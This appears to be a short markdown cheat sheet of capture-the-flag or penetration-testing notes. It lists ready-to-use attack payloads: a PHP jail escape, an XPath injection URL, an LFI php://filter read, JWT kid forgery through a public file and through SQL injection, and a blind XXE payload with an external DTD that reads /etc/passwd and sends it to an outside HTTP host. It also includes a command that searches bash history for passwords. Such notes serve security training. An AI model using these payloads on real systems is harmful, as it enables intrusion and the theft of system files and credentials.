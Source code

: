 # Notes

### PHP Jail Escape
```php
print file_get_contents('flag.txt');
```


### XPATH Dump
```
https://example.com/accounts.php?user=test"]/../*%00&xpath_debug=1
```


### LFI Retrieve File without executing it
```
https://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
```

### Useful PCAP Reader
```
chaosreader
```

### ZIP Format Signatures

*HEADER*
```
50 4B 03 04 14
```
*FOOTER*
```
50 4B 05 06 00
```


### JWT KID Value Exploitation
*Sign with public file from server*
```
kid: public/css/file.css

wget file.css from target

manipulate token using jwt_tool and sign it with file.css
```

*SQL Injection*
```
kid: test' UNION SELECT 'key';--

manipulate token using jwt_tool and sign it using the secret -> 'key'
```


### Blind XXE to SSRF

*ON TARGET*

```xml
<?xml version="1.0"?>
<!DOCTYPE foo SYSTEM "*HOST ADDRESS OF DTD FILE (preferably on github)*">
<foo>&e1;</foo>
````

*INSIDE DTD FILE*

```xml
<!ENTITY % p1 SYSTEM "file:///etc/passwd">
<!ENTITY % p2 "<!ENTITY e1 SYSTEM '*RANDOM HTTP HOST (like https://requestbin.com/)*/%p1;'>">
%p2;
```


### Hidden terminal input history
```bash
find . -name .bash_history -exec grep -A 1 '^passwd' {} \;
```

### Search file by name pattern
```bash
find -name "*PATTERN*" 2>/dev/null
```

### Search string
```bash
grep -r "STRING" / 2>/dev/null
```

### Check SUDO privileges/rights
```bash
sudo -l
```
